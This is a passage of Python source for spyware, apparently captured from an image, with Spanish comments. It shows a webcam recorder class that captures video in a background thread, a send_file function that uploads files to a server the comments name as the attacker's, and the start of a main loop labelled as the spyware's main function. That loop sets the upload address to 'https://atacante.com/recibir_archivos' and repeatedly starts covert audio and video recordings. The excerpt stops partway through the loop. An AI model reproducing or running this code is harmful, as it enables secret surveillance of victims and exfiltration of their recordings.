 ```python
        self.cap = cv2.VideoCapture(0)
        self.recording = False
        self.frames = []

    def start_recording(self, filename):
        """Comienza a grabar video de la cámara"""
        self.recording = True
        self.frames = []
        
        def record():
            while self.recording:
                ret, frame = self.cap.read()
                if ret:
                    self.frames.append(frame)
                cv2.waitKey(1)
            
            # Guardar video cuando termine
            height, width = self.frames[0].shape[:2]
            fourcc = cv2.VideoWriter_fourcc(*'XVID')
            out = cv2.VideoWriter(filename, fourcc, 20.0, (width, height))
            
            for frame in self.frames:
                out.write(frame)
            
            out.release()
        
        threading.Thread(target=record).start()

    def stop_recording(self):
        """Detiene la grabación"""
        self.recording = False
        self.cap.release()

def send_file(file_path, server_url):
    """Envía un archivo al servidor del atacante"""
    try:
        with open(file_path, 'rb') as f:
            files = {'file': (os.path.basename(file_path), f)}
            response = requests.post(server_url, files=files)
        return response.status_code == 200
    except:
        return False

def main():
    """Función principal del spyware"""
    # Configuración
    SERVER_URL = "https://atacante.com/recibir_archivos"
    RECORD_TIME = 30  # Segundos de grabación
    
    # Crear directorio temporal para grabaciones
    os.makedirs("temp_recordings", exist_ok=True)
    
    while True:
        timestamp = datetime.now().strftime("%Y%m%d_%H%M%S")
        audio_file = f"temp_recordings/audio_{timestamp}.wav"
        video_file = f"temp_recordings/video_{timestamp}.avi"
        
        # Iniciar grabaciones
        audio_recorder = AudioRecorder()
        video_recorder = VideoRecorder()
        
        audio_recorder.start_recording(audio_file)
        video_recorder.start_recording(video_file)
```